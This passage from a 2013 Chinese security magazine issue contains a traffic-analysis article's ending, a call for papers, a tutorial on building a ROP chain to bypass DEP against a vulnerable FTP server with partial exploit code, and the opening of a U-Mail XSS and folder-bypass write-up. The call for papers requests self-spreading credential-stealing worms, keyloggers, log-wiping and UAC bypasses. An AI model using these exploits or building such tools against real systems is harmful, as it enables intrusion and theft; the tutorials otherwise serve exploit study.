tar xzf thrift-0.7.0-dev.tar.gz
cd thrift-0.7.0-dev
sudo ./configure --with-cpp=no --with-ruby=no
sudo make
sudo make install
```

图 16

编译 Python 接口，如图 17 所示。

```bash
thrift --gen py Hbase.thrift
mv gen-py/hbase/ /usr/lib/python2.7/site-packages/


```

图 17

之后就能通过 `python import hbase` 来连接数据库了，采集器工作界面如图 18 所示。
图 18

## 访问模型建立

在收集了 2 亿条访问记录后，我们通过 Python 语言编写查询接口，从已经收集的数据中进行分析。由于前面已经建立了基于 Key 的存储，因此所有的查询都被转换成基于整数的组合，核心代码如图 19 所示。

```python
args = {}
args["ip"] = "127.0.0.1"
args["sum"] = '1'
args["time"] = '1'
args["limit"] = 100
args["debug"] = 0
args["scan"] = 0
s = datetime.datetime(2009,1,1,13,20,11)
args["sdate"] = "2009-1-1-0-0-0"
args["edate"] = "9999-1-1-0-0-0"
int(time.mktime(s.timetuple()))
if len(sys.argv)<2:
    print "limxinsnow[N.N.U]\nUSAGE:",sys.argv[0],args
    sys.exit()

for line in sys.argv:
    if line.find("=")!=-1:
        line = line.split("=")
        if line[0] not in args:
            print "ERROR!",line[0]
            sys.exit()
        args[line[0]]=line[1]
```

图 19

我们事先定义好了如表 1 所示的一些变量。

| 参数 | 说明 | 取值范围 |
|---|---|---|
| limit | 限制查询数目 | 0-∞ |
| time | 是否显示时间 | 0 or 1 |
| debug | 是否打印 HBase 记录 | 0 or 1 |
| sdate | 开始时间 | 2009-1-1-0-0-0 至 9999-1-1-0-0-0 |
| edate | 结束时间 | 2009-1-1-0-0-0 至 9999-1-1-0-0-0 |
| sum | 是否基于 IP 统计 | 1 or 0 |
| scan | 是否进行 IP 扫描 | 0 or 1 |

表 1

这些变量随后会被拼接成一个长的字符串，也就是 Key。通过 HBase 的 Scan 功能，从数据库里查询出我们需要的记录信息。查询结果示例如图 20 所示。

```txt
hadoop@HADOOP-1:~/gen-py$ python get.py ip=... debug=1 limit=10
{'sdate': '1230786000', 'scan': 0, 'ip': '...', 'sum': '1', 'limit': '10', ...}
addr= 1661017731 date= 1379962490 port= 80
addr= 1661017731 date= 1379962530 port= 80
addr= 1661017731 date= 1379962570 port= 80
addr= 1661017731 date= 1379962601 port= 80
...


```

图 20

根据这些组合，我们就可以很方便地对每个 IP 地址进行建模或者进行恶意行为的分析，甚至关联分析。比如我们在流量收集之初，对于每个 IP 地址，从 30 天的流量数据随机挑选了 7 个工作日的流量，进行了机器学习，将每个 IP 地址的访问行为作为模型存储下来。从简单的网站访问，如 IP1→百度、IP2→QQ，到跨 VLAN 间的访问记录，如 IP1 访问 VLAN1、IP2 访问 VLAN1，全部作为一个 IP 地址的行为数据模型。如图 21 所示。
图 21

## 简单应用

当一个 IP 对其他 IP 发生扫描行为时，会有两种情况，如图 21 所示。
图 21

单目标端口扫描，此时会发生单个 IP 在一段时间内连接另一个 IP 的大量端口，并且是 0～1023 端口。通过我们的分析脚本，得出的结果会如图 22 所示。
图 22

多目标单端口扫描，此时会发生单个 IP 在一段时间内连接另外大量 IP 的现象。通过我们的分析脚本，得出的结果会如图 23 所示。
图 23

如果再结合图形化展示的前台界面，效果将会非常直观。当我们的监测脚本发现类似的行为之后，我们进行了如图 24 所示的自动化流程，从而让整个网络的监控与运维关联了起来。
图 24

（完）

### 2013 年第 12 期杂志特约选题征稿

黑客防线于 2013 年推出新的约稿机制，每期均会推出编辑部特选的选题，涵盖信息安全领域的各个方面。对这些选题有兴趣的读者与作者，可联系投稿信箱：675122680@qq.com、hadefence@gmail.com，或者 QQ：675122680，确定有意的选题。按照要求如期完成稿件者，稿酬按照最高标准发放！特别优秀的稿酬另议。第 12 期的部分选题如下，完整的选题内容请见每月发送的约稿邮件。

### 1. 绕过 Windows UAC 的权限限制

自本期始，黑客防线杂志长期征集有关绕过 Windows UAC 权限限制的文章（已知方法除外）。

- Windows UAC 高权限下，绕过 UAC 提示进入系统的方法；
- Windows UAC 低权限下，进入系统后提高账户权限的方法。

### 2. Windows 7 屏幕保护密码获取

非重启系统状态下，本机屏幕保护已启动，获取 Windows 7 屏幕保护密码的方法。

### 3. Linux 日志处理

要求：

- 清除个人当前操作的所有日志记录；
- 保留其他人的操作记录，注意，有些日志启用了记录操作时间；
- 处理好多人同时操作同一账户时，确保仅清除个人日志。

### 4. Linux 键盘记录

要求：

- 以服务的方式启动；
- 除了记录 tty 登录，还要记录通过 ssh 等远程登录用户的键盘输入；
- 如果可以的话，除了记录键盘记录，还要记录下用户键入命令后的结果；
- 记录中要标识操作的用户，注意，要考虑多用户同时操作一个账户的情况。

### 5. Linux 自动检测网络安全

要求：

- 自动收集当前 Linux 系统的信息，如 uname、hosts、passwd、shadow、ifconfig、ps、netstat、history 等；
- 通过我们提供的帐号密码库自动测试远程登录，若登录成功则将远程主机的地址、端口、帐号、密码以及从哪一台机器登录的等详细记录；
- 将该程序自动复制到第 2 步成功登录的远程 Linux 主机，并重复 1、2、3 步操作；
- 可以手动制定结束条件，比如测试主机的个数，目的是防止重复登录；
- 将 1、2、3 中收集或记录的信息回传到一开始的主机；
- 完成操作后清除相关的操作记录。

### 6. 多用户 3389 远程桌面登录

要求：- 1）Windows XP 和 Win7 默认只允许一个用户操作桌面。当远程桌面登录进去，就会将当前桌面切换为锁定状态。请实现多用户登录远程桌面，同时操作，互不影响。  
- 2）至少支持两个用户同时登录；  
- 3）支持 Windows XP、Win7 32 位和 64 位；  
- 4）支持中英文；  
- 5）使用 VC++2008 编译工具，编写成控制台程序，完美支持，无任何出错提示。  

## 7. WEB 服务器批量扫描破解

- 1）针对目标 IP 参数要求  

10.10.0.0/16  
10.10.3.0/24  
10.10.1.0-10.255.255.255

- 2）针对目标 Web 服务器扫描要求  
可以识别目标 Web 服务器上运行的 Web 服务器程序，比如 APACHE 或者 IIS 等，具体参考如下：

Tomcat、Weblogic、Jboss  
Apache、JOnAS、WebSphere  
Lotus Server、IIS(Webdav)、Axis2  
Coldfusion、Monkey HTTPD、Nginx

- 3）针对目标 Web 服务器后台扫描  
针对目标进行后台地址搜索。  

- 4）针对目标 Web 后台密码破解  
搜索到 Web 登录后台以后，尝试弱口令破解，可以指定字典。  

## 8. 木马控制端 IP 地址隐藏

要求：

- 1）在远程控制配置 server 时，一般情况下控制地址是写入被控端的，当木马样本被捕获分析时，可以分析出控制地址。针对这个问题，研究控制端地址隐藏技术，即使木马样本被捕获，也无法轻易发现木马的控制端真实地址。  
- 2）使用 C 或 C++ 语言，VC6 或者 VC2008 编译工具实现。  

## 9. Web 后台弱口令暴力破解

说明：  
针对国际常用建站系统以及自编写的 WEB 后台无验证码登录形式的后台弱口令账号密码暴力破解。

要求：

- 1）能够自动或自定义抓取建站系统后台登录验证脚本 URL，如 WordPress、Joomla、Drupal、MetInfo 等常用建站系统；  
- 2）根据抓取提交账号密码的 URL，可自动或自定义选择提交方式，自动或自定义提交登录的参数，这里的自动指的是根据默认字典；  
- 3）可自定义设置暴力破解速度，破解的时候需要显示进度条；  
- 4）高级功能：默认字典跑不出来的后台，可根据设置相应的 GOOGLE、BING 等搜索引擎关键字，智能抓取并分析是否是后台以及自动抓取登录 URL 及其参数；默认字典跑不出来的账号密码可通过 GOOGLE、BING 等搜索引擎抓取目标相关的用户账户、邮箱账户，并以这些账户简单构造爆破账号密码，如用户为 admin，密码可自动填充为域名；用户为 abcd@abcd.com，账户密码就可以设置为 abcd、abcd 以及 abcd123 或 abcd123456 等简单账号密码；  
- 5）拓展：尽可能多搜集国外常用建站系统后台来增强该软件查找并定位后台 URL 能力；暴力破解要稳定，后台 URL 字典以及账号密码字典可自定义设置等。  

## 10. 编写端口扫描器

要求：

- 1）扫描出目标机器开放的端口，支持 TCP Connect、SYN、UDP 扫描方式；  
- 2）扫描方式采用多线程，并能设置线程数；  
- 3）将功能编写成 dll，导出功能函数；  
- 4）代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；  
- 5）尽量多做出错异常处理，以防程序意外崩溃；  
- 6）使用 VC++2008 编译工具编写；  
- 7）支持系统 Windows XP/2003/2008/7。  

## 11. Android WIFI Tether 数据转储劫持

说明：

WIFI Tether（开源项目）可以在 ROOT 过的 Android 设备上共享移动网络（也就是我们常说的 Wi-Fi 热点），请参照 WIFI Tether 实现一个程序，对流经本机的所有网络数据进行分析存储。

要求：

- 1）开启 WIFI 热点后，对流经本机的所有网络数据进行存储；  
- 2）不同的网络协议存储为不同的文件，比如 HTTP 协议存储为 HTTP.DAT；  
- 3）针对 HTTP 下载进行劫持，比如用户下载 www.xx.com/abc.zip，软件能拦截此地址并替换 abc.zip 文件。  

## 12. 突破 Windows7 UAC

说明：

编写一个程序，绕过 Windows7 UAC 提示，启动另外一个程序，并使这个程序获取到管理员权限。

要求：

- 1）Windows UAC 安全设置为最高级别；  
- 2）系统补丁打到最新；  
- 3）支持 32 位和 64 位系统。  

## 2013 征稿启示

《黑客防线》作为一本技术月刊，已经 13 年了。这十多年以来基本上形成了一个网络安全技术坎坷发展的主线，陪伴着无数热爱技术、钻研技术、热衷网络安全技术创新的同仁们实现了诸多技术突破。再次感谢所有的读者和作者，希望这份技术杂志可以永远陪你一起走下去。

投稿栏目：

### 首发漏洞

要求原创必须首发，杜绝一切二手资料。主要内容集中在各种 0Day 公布、讨论，欢迎第一手溢出类文章，特别欢迎主流操作系统和网络设备的底层 0Day，稿费从优，可以洽谈深度合作。有深度合作意向者，直接联系总编辑 binsun20000@hotmail.com。

### Android 技术研究

黑防重点栏目，对 Android 系统的攻击、破解、控制等技术的研究。研究方向包括 Android 源代码解析、Android 虚拟机，重点欢迎针对 Android 下杀毒软件机制和系统底层机理研究的技术和成果。

### 本月焦点

针对时下的热点网络安全技术问题展开讨论，或发表自己的技术观点、研究成果，或针对某一技术事件做分析、评测。

### 漏洞攻防

利用系统漏洞、网络协议漏洞进行的渗透、入侵、反渗透、反入侵，包括比较流行的第三方软件和网络设备 0Day 的触发机理，对于国际国内发布的 POC 进行分析研究，编写并提供优化的 exploit 的思路和过程；同时可针对最新爆发的漏洞进行底层触发、shellcode 分析以及对各种平台的安全机制的研究。

### 脚本攻防

利用脚本系统漏洞进行的注入、提权、渗透；国内外使用率高的脚本系统的 0Day 以及相关防护代码。重点欢迎利用脚本语言缺陷和数据库漏洞配合的注入以及补丁建议；重点欢迎 PHP、JSP 以及 HTML 边界注入的研究和代码实现。

### 工具与免杀

巧妙的免杀技术讨论；针对最新 Anti 杀毒软件、HIPS 等安全防护软件技术的讨论。特别欢迎突破安全防护软件主动防御的技术讨论，以及针对主流杀毒软件文件监控和扫描技术的新型思路对抗，并且欢迎在源代码基础上免杀和专杀的技术论证。最新工具，包括安全工具和黑客工具的新技术分析，以及新的使用技巧的实力讲解。

### 渗透与提权

黑防重点栏目。欢迎非 Windows 系统、非 SQL 数据库以外的主流操作系统的渗透、提权技术讨论，特别欢迎内网渗透、摆渡、提权的技术突破。一切独特的渗透、提权实例均在此栏目发表，杜绝任何无亮点技术文章。

### 溢出研究

对各种系统包括应用软件漏洞的详细分析，以及底层触发、shellcode 编写、漏洞模式等。

### 外文精粹

选取国外优秀的网络安全技术文章，进行翻译、讨论。

### 网络安全顾问

我们关注局域网和广域网整体网络防/杀病毒、防渗透体系的建立；ARP 系统的整体防护；较有效的不损失网络资源的防范 DDoS 攻击技术等相关方面的技术文章。

### 搜索引擎优化

主要针对特定关键词在各搜索引擎的综合排名，针对主流搜索引擎的多关键词排名的优化技术。

### 密界寻踪

关于算法、完全破解、硬件级加解密的技术讨论和病毒分析、虚拟机设计、外挂开发、调试及逆向分析技术的深入研究。

### 编程解析

各种安全软件和黑客软件的编程技术探讨；底层驱动、网络协议、进程的加载与控制技术探讨和 virus 高级应用技术编写；以及漏洞利用的关键代码解析和测试。重点欢迎 C/C++/ASM 自主开发独特工具的开源讨论。

## 投稿格式要求：

- 1）技术分析来稿一律使用 Word 编排，将图片插入文章中适当的位置，并明确标注“图 1”“图 2”；  
- 2）在稿件末尾请注明您的账户名、银行账号，以及开户地，包括你的真实姓名、准确的邮寄地址和邮编、QQ 或者 MSN、邮箱、常用的笔名等，方便我们发放稿费。  
- 3）投稿方式和周期：  
采用 E-Mail 方式投稿，投稿 mail：hadefence@gmail.com、QQ：675122680。投稿后，稿件录用情况将于 1～3 个工作日内回复，请作者留意查看。每月 10 日前投稿将有机会发表在下月杂志上，10 日后将放到下下月杂志。请作者朋友注意，确认在下一期也没使用者，可以另找他处。限于人力，未采用的恕不退稿，请自留底稿。  
**重点提示：** 严禁一稿两投。无论什么原因，如果出现重稿——与别的杂志重复——与别的网站重复，将会扣发稿费，从此不再录用该作者稿件。  
- 4）稿费发放周期：  
稿费当月发放，稿费从优。欢迎更多的专业技术人员加入到这个行列。  
- 5）根据稿件质量，分为一等、二等、三等稿件，稿费标准如下：  

| 稿件等级 | 稿费标准 |
|---|---|
| 一等稿件 | 900 元/篇 |
| 二等稿件 | 600 元/篇 |
| 三等稿件 | 300 元/篇 |

- 6）稿费发放办法：  
银行卡发放，支持境内各大银行借记卡，不支持信用卡。  
- 7）投稿信箱及编辑联系  
投稿信箱：hadefence@gmail.com  
编辑 QQ：675122680  

### GPU 辅助执行恶意软件

- 利用 ROP 技术绕过 DEP 保护  
- 卸载监控进程绕过 Avast! 陌生文件提示  
- 利用 Credential Manager 截获 Windows 登录密码  
- 多态 URL 绕过 IDS 的方法及测试验证  
- Patch Win8 实现 Ctrl+ 空格切换输入法  
## 《黑客防线》12 期文章目录

总第 156 期 2013 年

### 漏洞攻防

- 利用 ROP 技术绕过 DEP 保护（达生）……3  
- 漏洞重重的 U-Mail 系统（爱无言）……12  
- 友情检测网络安全论坛（独猫）……15  

### 编程解析

- GPU 辅助执行恶意软件（月夜）……22  
- 利用 Credential Manager 截获 Windows 登录密码（李旭昇）……27  
- Patch Win8 实现 Ctrl+ 空格切换输入法（mengxp［孟学政］）……31  
- 浅论 Windows 买的的三块表（木羊）……33  
- 卸载监控进程绕过 Avast! 陌生文件提示（李旭昇）……36  
- 通过安装钩子实现文件防删除（赵显阳）……43  
- 打造自己的文件行为监控器（马智超）……46  
- 文件操作行为监控（DebugMe）……51  

### 密界寻踪

- 多态 URL 绕过 IDS 的方法及测试验证（万雪林）……56  
- 2014 年第 1 期杂志特约选题征稿……67  
- 2014 年征稿启示……70  

### 利用 ROP 技术绕过 DEP 保护

文/图 达生

本来打算有空闲了专门针对软件漏洞写一个系列专题，其中必不可少要介绍 ROP 技术以及如何过 DEP 保护。但是，近日有学弟问起 ROP 技术的原理，那就择日不如撞日，先写一篇关于如何制作 ROP 链过 DEP 保护的文章。

## 关于 DEP 保护

- 1）为什么要有 DEP 保护  
- 溢出攻击的本质在于现代计算机对数据和代码没有明确区分这一先天性缺陷。因为我们可以将代码放置于数据区段，转而让系统去执行，这样就可能导致各种溢出攻击。  
- 为了弥补这一先天性缺陷，微软从 XP SP2 开始推出了数据执行保护（Data Execution Prevention，DEP）。

- 2）DEP 保护的原理  
- 首先明确，我们进行各种溢出攻击的目的是什么？不就是让软件（系统）去执行我们构造的 shellcode 吗？不管什么溢出，我们的 shellcode 都是放在程序的数据区段。一言蔽之，溢出的利用就是在数据段将 shellcode 当作代码来执行。  
- 现在微软提供了 DEP 保护，将程序的数据段标记为不可执行。当我们要在数据段执行 shellcode 时，CPU 就会抛出异常，从而转向异常处理，而不会执行 shellcode。

- 3）DEP 保护的类型  
- 在 32 位计算机上，系统设置了两种 DEP 保护，用以指明对哪些进程或服务进行保护。  
- 第一种为 OptIn：默认选项，仅对 Windows 的系统组件和服务进行保护。  
- 第二种为 OptOut：对列表以外的所有程序和服务启用 DEP。如果列表为空，则表明对所有程序和服务进行 DEP 保护。  
- 在 Windows XP 下，我的电脑→属性→高级→设置→数据执行保护，有 DEP 设置页面，如图 1 所示。
图 1

## 补充说明：

- 1）Windows 7 下的路径是：控制面板->系统和安全->系统->高级系统设置；Windows 7 版本不同，路径不同，但都在“高级系统设置”栏中。  
- 2）如果想让自己编写的程序受到 DEP 保护，可以在 VS 中进行设置。VS2010 中，DEP 保护选项为右击项目->属性->链接->高级。  

## 关于 ROP

ROP，面向返回的编程（Return-oriented Programming，ROP），是一种新型的基于代码复用技术的攻击。攻击者从已有的库或可执行文件中提取指令片段，构建恶意代码。对于 ROP 技术，我总结为三句话：

- 1）ROP 通过 ROP 链实现有序汇编指令的执行。  
- 2）ROP 链由一个个 ROP 小配件（相当于一个小节点）组成。  
- 3）ROP 小配件由“目的执行指令 + retn 指令”组成。  

那么什么是 ROP 小配件？ROP 小配件就是一个指向“汇编指令 + retn 指令”的地址。比如现在有个 ROP 小配件想实现 ebx 加 1，那么这个 ROP 小配件的指令组合应该是：inc ebx + retn。这时我们就在当前内存中寻找。假设找到 0x7ffa1122 处恰好是 inc ebx + retn 指令组合，那么这个 ROP 小配件就是：0x7ffa1122。

在缓冲区溢出中，最常见的就是栈溢出。如果我们找到一个栈溢出漏洞，然后写了 exp 去攻击靶机；如果靶机中的目标程序受到 DEP 保护，尽管能溢出成功，但根本无法去执行 shellcode。这是因为我们的 shellcode 大部分在栈中（其实也可以放在内存数据区段的其他部分，比如堆）；但不管是栈，还是堆，有了 DEP 保护，其上面的数据是不能执行的。但是，如果我们使用 ROP 技术，就可以完美解决了。

秉承实践先行、理论验证的原则，下面我们直接动手利用 ROP 链绕过 DEP 保护。在实践过程中，大家可以自己去调试、理解。

## 构造 ROP 链绕过 DEP 保护

- 实验环境如下：  
- 靶机系统：Windows XP SP3，FTPServer.exe，Procexp.exe，Immunity Debugger。  
- 攻击机系统：操作系统随意，有 Python 环境即可。  
- 实验简介：FTPServer.exe 是一款轻量级的 FTP 服务端软件，其 user 命令存在缓冲区溢出漏洞。Procexp.exe 是一款强大的进程查看软件，可以看到进程是否使用 DEP 保护。Immunity Debugger 是一款基于 OD 的调试器，实现与 Python 的完美结合。

首先，我们在不开启 DEP 保护的情况下，在 XP 上成功溢出并获取反连 shell。接着，开启 DEP 保护，看能否成功溢出（应该是不能成功利用）；最后，使用 ROP 技术绕过 DEP，在开启 DEP 保护的情况下成功溢出。

## 1）没有 DEP 保护，成功溢出

在我们的系统中，默认以 OptIn 方式开启 DEP，即仅对 Windows 的系统组件和服务进行保护，而我们所选的 FTPServer.exe 不是系统组件或服务，所以默认状态下 FTPServer 进程是不开启 DEP 保护的，如图 2 所示。从中可知：系统进程（如 explorer.exe）是默认开启 DEP 的；而 FTPServer 是不开启的。
图 2

如何编写 exp 不是本文的重点。这里我们用一个 Python 写的 exp：FreeFloat.py 来利用 FTPServer.exe 上的栈溢出（此 exp 来自于 http://www.exploit-db.com/exploits/15689/）。但这个 exp 在我的 XP 系统不能运行，经过调试分析，发现将 EIP 覆盖成万能跳转地址 0x7ffa4512 即可。

靶机上运行 FTPServer.exe，如图 3 所示；攻击机运行 FreeFloat.py，实施溢出攻击，如图 4 所示。
图 3
图 4

溢出成功。接下来可以连接 4444 端口验证漏洞利用是否成功。使用 telnet 命令：telnet 192.168.13.130 4444，如图 5 所示。从中可以看出，在没有开启 DEP 保护的情况下，FTPServer.exe 的栈溢出漏洞被成功利用。
图 5

- 2）开启 DEP 保护，溢出失败

默认状态下 FTPServer 进程是不受 DEP 保护的，但我们可以使用 OptOut 选项，让所有进程都受 DEP 保护。修改之后，重启方可生效。

重启之后，发现所有进程都受 DEP 保护，包括 FTPServer 进程，如图 6 所示。
图 6

仍然使用 FreeFloat.py 对 FTPServer 进行攻击，如图 7 所示。
图 7

溢出成功，但漏洞利用成功了吗？使用 `telnet` 一试便知，如图 8 所示。
图 8

可以发现连接失败，漏洞并没有成功利用。切回到靶机系统，发现程序崩溃，如图 9 所示。
图 9

如果调试漏洞多了，从错误提示框就能看出是 DEP 保护造成的。因为我们的 EIP 是用万能跳转地址“0x7ffa4512”（jmp esp）覆盖的。在 0x7ffa4512 下硬件访问断点，重新攻击，发现程序停在如图 10 所示的位置处。

图10

从栈中数据可以看出我们的溢出是完全成功的，但由于有 DEP 保护，栈上的数据并不能被执行，反而触发异常，造成程序退出！

这个程序崩溃在 0x7ffa4512 处，是由于此地址本身就是一个内存数据区域；如果换成其他 jmp esp，就应该崩溃在 0x90909090 处！大家可以自己实践验证！

总之，由于 DEP 保护的开启，我们的漏洞利用失败！下面就要想办法绕过 DEP！

## 3）利用 ROP 链绕过 DEP 保护

### ①绕过 DEP 保护的思路

对于绕过 DEP 的思路，无外乎两个：

- 新建一个新的可执行的内存区域，然后将 shellcode 复制进去。一般使用 VirtualAlloc、HeapCreate 函数先建立可执行堆，然后使用 memcpy 等函数将 shellcode 复制进去。
- 使用 Windows API 直接关闭（停用）DEP 保护！这类函数一般有 SetProcessDEPPolicy()、NtSetInformationProcess() 和 VirtualProtect。

具体选择哪个思路、哪个函数，要视具体情况而定，如图11所示。

图11

对于以上两个思路，不管哪个我们都得调用 API 函数，而且这些函数必须要我们能控制、能构造！这就是 ROP 链要做的！

ROP 链的作用就是用一连串 ROP 小配件实现这些函数的调用并转到 shellcode 上。那么，ROP 链是怎样实现这些函数的调用的呢？我们通过实际例子来说明。

### ②实战绕过 DEP 保护

由于 `SetProcessDEPPolicy()` 函数最简单，所以我们调用此函数来关闭 DEP 保护，然后转到我们的 shellcode 上去。

- 使用 `!monarop -m msvcrt.dll` 命令寻找模板。
- 第一步：使用 Immunity Debugger 加载 FTPServer；
- 第二步：在命令行中键入 `!monarop -m msvcrt.dll`，如图12所示。

图12

`-m` 的意思是在哪个模块中寻找 ROP 模板；也可以 `-m user32.dll`；默认是在所有模块中寻找。为什么选择 `msvcrt.dll` 呢？（思考一下，本无定数！）

命令执行完，在 Immunity Debugger 的安装目录下寻找 `rop_chain.txt` 文件，其中就有各个函数、各个语言的模板！我们选择 `SetProcessDEPPolicy()` 函数 `python` 版！如图13所示。

```python
*** [ Python ] ***

def create_rop_chain():
    # rop chain generated with mona.py
    rop_gadgets = ""
    ...
rop_chain = create_rop_chain()
```

图13

其实很多时候，这个模板是可以直接拷到 exp 中使用的，不过这个模板恰好不行。不行也好，我们可以做一些最本质的分析！在 `rop_chain.txt` 文件中，往前翻，发现如图14所示的内容。

```text
Register setup for SetProcessDEPPolicy():
----------------------------------------
EAX = <not used>
ECX = <not used>
EDX = <not used>
EBX = dwFlags (ptr to 0x00000000)
ESP = ReturnTo (automatic)
EBP = ptr to SetProcessDEPPolicy()
ESI = <not used>
EDI = ROP NOP (4 byte stackpivot)
----------------------------------------
```

图14

为什么会给出这些寄存器呢？其实 ROP 链的目的就是去构造寄存器中的数值，然后使用 `pushad` 指令将这些值全部压入堆栈中，这样就可以调用 `SetProcessDEPPolicy()` 函数，从而关闭 DEP 保护！

有人会问，为什么寄存器要这样布置？

首先我们明确 `pushad` 指令的特点。`pushad` 是将所有寄存器的值入栈，其入栈顺序是 eax、ecx、edx、ebx、esp、ebp、esi、edi，而出栈是先入后出！

在使用 `pushad` 指令入栈前，esp 指向 shellcode。所以，esp 上面的寄存器（栈中）ebp 就必须是指向 SetProcessDEPPolicy() 函数的函数地址，这样才能保证在函数调用完后，转到 esp 中，从而执行我们的 shellcode。

根据函数调用规则，ebx 就应该是函数参数。

至于 edi 和 esi，则必须是 `retn` 指令，什么也不干，只是为了让程序向下（栈中）执行到 SetProcessDEPPolicy() 的函数调用。谁让它们在 ebp 寄存器的上面（栈中）。

最后，不要忘了还有 eip 寄存器；这时我们可以用任意一个带 `retn` 指令的 ROP 小配件来覆盖 eip；这里我们用 `pop ebx + retn` 小配件来覆盖，也可以直接用 `retn` 指令地址去覆盖！

从模板中可以看到构造 ebx 的 ROP 小配件有了，构造 edi 的 ROP 小配件有了；就剩下构造 ebp、esi 和纯 `retn` 小配件。还有，由于自己习惯问题，我不喜欢使用模板中的 `pushad+add eax,0x0ef+retn` 这样的小配件，而比较倾向于 `pushad+retn`。这样，我们的模板就有了，具体如下：

```text
# retn
# pop ebp + retn
# SetProcessDEPPolicy() 函数地址    传给寄存器 ebp
# pop ebx + retn
# 0x00000000 传给寄存器 ebx
# pop edi + retn
# retn 传给寄存器 edi
# pop esi + retn
# retn 传给寄存器 esi
# pushad + retn
```

之所以没有 SetProcessDEPPolicy() 函数地址，是因为 SetProcessDEPPolicy() 函数在 `kernel32.dll` 中，没在 `msvcrt.dll` 中。这里有个小技巧：使用 `!monarop -m kernel32.dll` 在这个 `kernel32.dll` 库中找模板，然后就可以看到 SetProcessDEPPolicy() 函数的地址，之后复制出来！在我的系统中，SetProcessDEPPolicy() 函数的地址是 `0x7c862144`。

### ③寻找模板中没有的小配件

现在还没有纯 `retn`、`pop ebp+retn`、`pop esi+retn` 和 `pushad+retn` 小配件！

下面我们使用 `!monafind` 命令来精确寻找。比如我们知道 `retn` 的机器码是 `0xC3`，就可以使用图15中的命令来寻找。然后在 Immunity Debugger 安装目录下，打开 `find.txt` 文件，其中就有所有 `retn` 指令的地址，我们选择 `0x77bfad6a`。

接下来我们可以使用相同的命令寻找 `pop ebp+retn`、`pop esi+retn` 和 `pushad+retn` 的小配件。

机器码如下：

- `pop ebp+retn` 的机器码：`0x5D 0xC3`
- `pop esi+retn` 的机器码：`0x5E 0xC3`
- `pushad+retn` 的机器码：`0x60 0xC3`（这个小配件在全部模块中搜索的）

最终我们选择：

- `0x77bebb47` 指向 `pop ebp+retn`；
- `0x77bf3181` 指向 `pop esi+retn`；
- `0x77d23ad9`（`user32.dll` 中）指向 `pushad+retn`。

### ④打造自己的 ROP 链

构造每个寄存器的小配件都有了，下面就该打造 ROP 链了。

在构造整个链的过程中，会遇到很多问题，而且可能每个人遇到的问题都不一样，所以这里我只说如何去做！

先打造一个初步的模型，然后不断用 Immunity Debugger 加载调试，分析出现的问题。

我们的目的只有一个：成功构造寄存器——让 ebx 为 0；ebp 为 SetProcessDEPPolicy() 函数地址；edi 和 esi 都是指向 `retn` 的地址。

最终构造的 ROP 链如图16所示。

```python
eip  = struct.pack('<L',0x77bfad6a)    # pop ebx # retn
rop  = "\x90" * 8

rop += struct.pack('<L',0x77bebb47)    # pop ebp # retn
rop += struct.pack('<L',0x7c862144)    # setDEP add
...
rop += struct.pack('<L',0x77d23ad9)    # pushad # retn user32.dll
```

图16

之所以 ebx 不用 `0x00000000`，是因为服务器接受数据会截断！即 `0x00` 是 badchar，我们必须避免出现，所以用 `0xffffffff+1` 来代替！最终目的还是让 `ebx==0`。

运行 `FreeFloat-AntiDEP.py`，发现在有 DEP 保护情况下，仍然能够成功利用漏洞，如图17和图18所示。

图17  
图18

其实在选择是以 SetProcessDEPPolicy()，还是以 VirtualProtect() 为例进行讲解 ROP 链的时候，我有所犹豫。很明显，SetProcessDEPPolicy() 函数最简单，最易懂；但 VirtualProtect() 函数更具实用性。尤其在后面遇到一些“持久 DEP”保护时，SetProcessDEPPolicy() 函数可能就不能发挥作用了，此时我们就不得不选择 VirtualProtect() 函数。

但考虑到这仅仅是一篇入门文章，所以我们以最简单易懂为目的，故选择了 SetProcessDEPPolicy() 函数。

## 总结与思考

其实仔细思考，构造 ROP 链就是对各个寄存器的构造！而对各个寄存器构造的目的是调用绕过函数和转到 shell，所以我们构造 ROP 链绕过 DEP 的思路就是：构造 ROP 链 -> 构造各个寄存器（参数、函数地址、转到 shell）-> 调用绕过 DEP 的函数。

为什么我们能利用 ROP 绕过 DEP 保护呢？

在试验中我们发现，有 DEP 保护时，尽管不能成功利用漏洞，但溢出是成功的。也就是说，我们能控制栈上的数据布局，这样就有机可乘——可以将这些栈上数据布置成 ROP 小配件，并用此来关闭 DEP 保护！

ROP 小配件为何能实现指令的一个接一个的执行呢？

这有两个原因：一是这些 ROP 小配件只是指向可执行段的地址，真正的指令在这些地址中，而这些指令不受 DEP 保护限制；二是利用 `retn` 指令的特性。当执行 `retn` 指令时，CPU 会做两个动作：esp 处的地址（当前栈地址）被传到 eip 中，并被执行；然后 esp+4。这样就可以在执行完一个 ROP 小配件后，顺利执行下一个 ROP 小配件！（思考：为什么每个 ROP 小配件后要有一个 `retn` 指令！）

### 漏洞重重的 U-Mail 系统

文/图 爱无言

对于国内企业级用户来说，搭建 E-Mail 系统时往往会选择诸如 U-Mail、CoreMail 等知名的邮件系统。这些系统经过大量用户考验，在性能和安全性上有很大优势，但在最近的一次安全测试中，发现这些知名的邮件系统似乎都出现了致命的安全漏洞，这里我们先以 U-Mail 系统为例子，与大家分享其最新的 0Day。本文只做技术探讨，请勿以本文内容进行任何违法活动，作者与杂志概不负责。

U-Mail 系统的第一个安全漏洞出现在其提供的邮件撰写功能上。U-Mail 系统支持用户发送带有 HTML 代码的邮件内容，在其邮件撰写编辑窗口处有一个“html”按钮，点击该按钮，就可以在其中输入任意 HTML 代码，这当然也包含了恶意性质的攻击脚本代码，如图1所示。

图1

当然，我们将这封带有恶意脚本代码的邮件发送给受攻击用户时，其浏览器上就会出现一个大大的对话框，我想这个原因大家都懂得，如图2所示。

图2

没有任何过滤机制造成的 XSS 漏洞让邮件用户很受伤，可是这还不够，下面这个漏洞完全就是因为安全机制只防范了客户端，根本没有在服务端上做安全限制造成的。

对于 U-Mail 系统来说，任意一个邮件系统用户的发件箱、收件箱、垃圾箱、草稿箱都对应着一个物理文件夹，这个物理文件夹处于 U-Mail 系统的安装目录中。U-Mail 系统允许用户创建新的文件夹来管理自己的邮件，但 U-Mail 系统对用户输入的新文件夹名称并没有做到真正的安全限制，而只是利用 JS 脚本在浏览器端进行了一下限制，如果此时我们借助数据包监听程序捕获添加文件夹数据包，修改系统的内容就可以绕过 JS 脚本的安全限制，从而在服务器上建立任意文件目录。这里被修改的数据包内容类似这样：

```http
POST /webmail/client/mail/index.php?module=operate&action=folder-add HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, */*
